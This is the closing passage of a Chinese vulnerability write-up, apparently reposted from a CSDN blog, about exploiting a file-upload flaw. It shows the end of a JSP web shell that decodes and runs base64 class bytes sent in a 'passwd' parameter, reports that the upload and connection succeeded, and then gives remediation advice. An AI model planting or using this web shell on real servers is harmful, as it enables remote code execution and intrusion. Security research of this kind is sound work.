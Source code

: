 ```
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic1RyCJ6ibic6EZtyhdSnntWic9atDm19Pl8AzaovMxObwpialcbDItugpJmop4YEuiaAO89G48F9lQyt3A/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
上传成功，尝试连接  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic1RyCJ6ibic6EZtyhdSnntWic98xktr9EoOrS6ibURshCWX1OzmiaTLJlCX7b0UOZKdb7xucaia9Y9ibgvOw/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 0x07 修复建议  
  
关闭互联网暴露面访问的权限，文件上传模块做好权限强认证。  
> 原文链接：https://blog.csdn.net/qq_41904294/article/details/130807691  
  
原文作者：OidBoy_G  
  
  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
  
